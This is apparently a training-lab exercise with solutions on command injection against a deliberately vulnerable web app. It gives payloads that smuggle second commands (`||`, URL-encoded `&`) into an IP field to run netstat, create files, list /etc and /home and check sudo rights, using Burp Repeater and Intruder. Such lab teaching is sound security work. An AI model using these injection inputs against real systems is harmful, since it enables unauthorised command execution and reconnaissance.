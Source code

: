 # Loud Pipes

In this exercise, you'll use `||` and `&` to bypass a simple user-input filter.

---

## Instructions
- Click **Command Injection** in the left navigation bar, and make sure your security level is set to **medium**.

- Use the `||` to:
  - Check the installed version of Perl
  - List running network services (`netstat`)
  - Create a file, then check if it was created
  > **Solution**
  > ```bash
  > # Check the installed version of Perl
  > bad_ip || perl --version
  > # List running network services (`netstat`)
  > bad_ip || netstat -ta
  > # Create a file, then check if it was created
  > bad_ip || touch experiment
  > bad_ip || ls
  > ```
  > Note that the file creation experiment worked—this is dangerous!

- Launch Burp Suite. Send an IP address through the form; intercept the request; and send it to Repeater.

- Use Repeater and the `&` operator to:
  - List the contents of `/etc`
  - List the contents of `/home`
  - Print the commands you can run with `sudo` (`sudo -L`)
  - Remember that you must encode spaces and plus signs in the URLs! You can use Google or the **Burp Decoder** tab for this.
  > **Solutions**: The correct POST bodies are below. Note that the `&` is encoded as `%26`.
  > ```bash
  > # List the contents of `/etc`
  > ip=8.8.8.8%20%26%20ls%20/etc&Submit=submit
  > # List the contents of `/home`
  > ip=8.8.8.8%20%26%20ls%20/home&Submit=submit
  > # Print the commands you can run with `sudo` (`sudo -L`)
  > ip=8.8.8.8%20%26sudo%20-L&Submit=submit
  > ```

- Repeat the above exercise with Intruder, but redirect ping's output to `/dev/null`. 
  - How do the responses differ? 
  > **Solution**: The responses differ in that they omit the output from ping, and only include the output of the command we chose to run. The commands that list the contents of `/home` and output of `sudo -L` return no output, indicating that the `www-data` user (which is the user whose permission the command runs with) has no `sudo` rights, and cannot view the contents of `/home`. `www-data` can, however, list the contents of `/etc`, so we must use these results to further exploit the machine.
